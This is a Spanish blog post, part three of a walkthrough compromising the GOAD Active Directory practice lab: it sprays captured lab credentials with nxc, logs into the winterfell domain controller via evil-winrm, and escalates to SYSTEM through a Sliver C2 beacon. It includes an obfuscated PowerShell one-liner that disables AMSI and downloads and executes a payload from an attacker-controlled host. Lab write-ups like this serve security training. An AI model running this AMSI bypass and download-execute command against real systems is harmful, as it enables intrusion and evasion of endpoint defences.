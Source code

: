 ```yaml
---
layout: single
title: Game of Active Directory - Parte 3
excerpt: "En la segunda parte conseguimos acceder a la máquina castelblack para después elevar privilegios gracias al privilegio seimpersonateprivilege. En esta tercera parte accederemos al controlador de dominio de north.sevenkingdoms.local."
date: 2024-04-11
classes: wide
header:
  teaser: /assets/images/Goad/logo_GOAD.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```


![](/assets/images/Goad/logo_GOAD.jpg)

En la segunda parte conseguimos acceder a la máquina castelblack para después elevar privilegios gracias al privilegio seimpersonateprivilege. En esta tercera parte accederemos al controlador de dominio de north.sevenkingdoms.local.

En la segunda parte conseguimos varias credenciales, en concreto nos interesa la que obtuvimos con el responder `robb.stark:sexywolfy`.

Vamos a probar esas credenciales en todas las máquinas para ver en cuales nos podemos autenticar.

```bash
nxc smb 192.168.56.10-23 -u robb.stark -p sexywolfy
```

![](/assets/images/Goad/robb.jpg)

Y vemos que tenemos permisos de administrador en el controlador de dominio winterfell. Y además podemos iniciar sesión a través de winrm.

```bash
evil-winrm -u robb.stark -p sexywolfy -i 192.168.56.11
```

![](/assets/images/Goad/robb2.jpg)


Ya que tenemos privilegios de administrador vamos a obtener un beacon de sliver para tener las sesiones de las dos máquinas en el C2.

Desde la sesión que tenemos con evil-winrm ejecutamos el primer comando que utilizamos en la webshell y obtenemos el beacon sin que el defender se entere.

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344);IEX (new-object system.net.webclient).downloadstring('http://192.168.56.1:9000/sc.txt')
```


![](/assets/images/Goad/robb3.jpg)

![](/assets/images/Goad/robb4.jpg)

Ahora nos basta con ejecutar `getsystem` desde sliver para obtener un nuevo beacon de system. Lo utilizamos y interactuamos con él para recibir la sesión de system en el controlador de dominio.

![](/assets/images/Goad/robb5.jpg)

Ya somos system en el primer controlador de dominio (winterfell.north.sevenkingdoms.local), en la cuarta parte empezaremos a atacar el segundo dominio (essos.local).